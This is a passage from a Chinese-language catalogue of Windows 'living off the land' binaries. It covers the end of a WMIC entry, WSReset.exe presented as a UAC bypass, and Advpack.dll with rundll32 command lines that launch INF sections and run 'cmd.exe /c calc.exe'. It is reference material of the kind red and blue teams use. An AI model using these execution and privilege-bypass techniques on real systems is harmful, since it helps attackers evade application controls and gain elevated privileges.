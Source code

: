 ```
```
- 参考资料：
```
https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
https://twitter.com/subTee/status/986234811944648707
```

## Wsreset.exe
- 使用说明：

Windows应用商店重置工具。 只需将二进制文件放在磁盘上，然后将其位置写入更正注册表项，然后运行WSReset.exe。 二进制文件将以高特权运行。

文件路径:
```
C:\Windows\System32\wsreset.exe
```
- 执行方式：
```
wsreset.exe
```
- 参考资料：
```
https://www.activecyber.us/activelabs/windows-uac-bypass
https://twitter.com/ihack4falafel/status/1106644790114947073
https://github.com/hfiref0x/UACME/blob/master/README.md
```

# 系统库文件(10个)

## Advpack.dll
- 使用说明：

使用rundll32.exe安装软件和驱动程序的实用程序

文件路径:
```
c:\windows\system32\advpack.dll
c:\windows\syswow64\advpack.dll
```
- 执行方式：
```
rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,,1,
rundll32.exe advpack.dll,RegisterOCX test.dll
rundll32.exe advpack.dll,RegisterOCX calc.exe
rundll32 advpack.dll, RegisterOCX "cmd.exe /c calc.exe"
```
- 参考资料：
```
https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/
https://twitter.com/ItsReallyNick/status/967859147977850880
https://twitter.com/bohops/status/974497123101179904
https://twitter.com/moriarty_meng/status/977848311603380224
```
